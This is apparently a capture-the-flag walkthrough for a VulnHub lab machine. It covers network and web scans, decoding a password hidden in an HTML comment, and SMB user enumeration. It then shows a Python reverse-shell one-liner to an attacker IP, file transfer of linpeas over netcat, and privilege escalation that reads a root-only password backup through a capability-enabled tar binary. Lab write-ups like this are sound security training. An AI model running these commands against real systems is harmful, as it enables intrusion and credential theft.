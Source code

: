 ## Nmap Scan
```sh
sudo nmap -sP -PO 192.168.43.0-255
```

```sh
nmap -sV 192.168.43.105 -v
```

```
PORT      STATE SERVICE     VERSION  
80/tcp    open  http        Apache httpd 2.4.51 ((Debian))  
139/tcp   open  netbios-ssn Samba smbd 4.6.2  
445/tcp   open  netbios-ssn Samba smbd 4.6.2  
10000/tcp open  http        MiniServ 1.981 (Webmin httpd)  
20000/tcp open  http        MiniServ 1.830 (Webmin httpd)
```

## FFUF Scan
```sh
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -u http://192.168.43.105/FUZZ
```

```
.htaccess               [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 7ms]  
.hta                    [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 12ms]  
.htpasswd               [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 61ms]  
index.html              [Status: 200, Size: 11159, Words: 3444, Lines: 519, Duration: 7ms]  
manual                  [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 24ms]  
server-status           [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 6ms]
```

## HTML Debug
```sh
curl http://192.168.43.105/ | bat --language=html
```

```
<!--
don't worry no one will get here, it's safe to share with you my access. Its encrypted :)

++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>++++++++++++++++.++++.>>+++++++++++++++++.----.<++++++++++.-----------.>-----------.++++.<<+.>-.--------.++++++++++++++++++++.<------------.>>---------.<<++++++.++++++.


-->
```

### Decode brainfuck
```python
import brainfuck
brainfuck_code = "++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>++++++++++++++++.++++.>>+++++++++++++++++.----.<++++++++++.-----------.>-----------.++++.<<+.>-.--------.++++++++++++++++++++.<------------.>>---------.<<++++++.++++++."
flag = brainfuck.evaluate(brainfuck_code)
print(flag)
```

```
.2uqPEfj3D<P'a-3
```

## Enum4linux Scan
```sh
enum4linux -a 192.168.43.105
```

```
---
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none
---

S-1-5-32-544 BUILTIN\Administrators (Local Group)
S-1-5-32-545 BUILTIN\Users (Local Group)  
S-1-5-32-546 BUILTIN\Guests (Local Group)  
S-1-5-32-547 BUILTIN\Power Users (Local Group)  
S-1-5-32-548 BUILTIN\Account Operators (Local Group)  
S-1-5-32-549 BUILTIN\Server Operators (Local Group)  
S-1-5-32-550 BUILTIN\Print Operators (Local Group)

---

S-1-5-21-1683874020-4104641535-3793993001-501 BREAKOUT\nobody (Local User)
S-1-5-21-1683874020-4104641535-3793993001-513 BREAKOUT\None (Domain Group)

---

S-1-22-1-1000 Unix User\cyber (Local User)
```

## Login Usermin
https://192.168.43.105:20000
```
username: cyber
password: .2uqPEfj3D<P'a-3
```

## Check Weak Binarys
```sh
find / -perm -4000 -type f 2>/dev/null
```

```sh
getcap -r / 2>/dev/null
```

```
/home/cyber/tar cap_dac_read_search=ep
/usr/bin/ping cap_net_raw=ep
```
> Note:
> CAP_DAC_READ_SEARCH **allows to ignore the read permission bits and does also allow to execute the system call open_by_handle_at which can be used to read outside a container chroot**.

## Back Door User cyber 
attacker
```sh
nc -lvnp 1234
```
target
```sh
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.43.171",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```
## Check with linpeas 
attacker
```sh
wget https://github.com/carlospolop/PEASS-ng/releases/download/20220511/linpeas.sh
```
target
```sh
nc -l -p 1234 > linpeas.sh
```
attacker
```
nc -w 3 192.168.43.105 1234 < linpeas.sh
```
target
```sh
chmod +x linpeas.sh
./linpeas.sh
```
output //important information
```
Vulnerable to CVE-2022-0847 // unitended vuln?
[CVE-2021-3490] eBPF ALU32 bounds tracking for bitwise ops // unitended vuln?
[+] [CVE-2022-0847] DirtyPipe // unitended vuln?
uid=1000(cyber) gid=1000(cyber) groups=1000(cyber),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev) // vidio grup vuln?
passwd file: /usr/share/bash-completion/completions/passwd // bash auto complete password?
-rw------- 1 root root 17 Oct 20  2021 /var/backups/.old_pass.bak //the password?
```
## Privilage Escalation Using cap_dac_read_search Permission in ~/tar ELF
```
./tar -cf password.tar /var/backups/.old_pass.bak
tar -xf password.tar
```
# Flag
user Flag: 3mp!r3{You_Manage_To_Break_To_My_Secure_Access}
root Flag: 3mp!r3{You_Manage_To_BreakOut_From_My_System_Congratulation}
# Reference
https://resources.infosecinstitute.com/topic/empire-breakout-vulnhub-ctf-walkthrough/
https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe#pe-method-2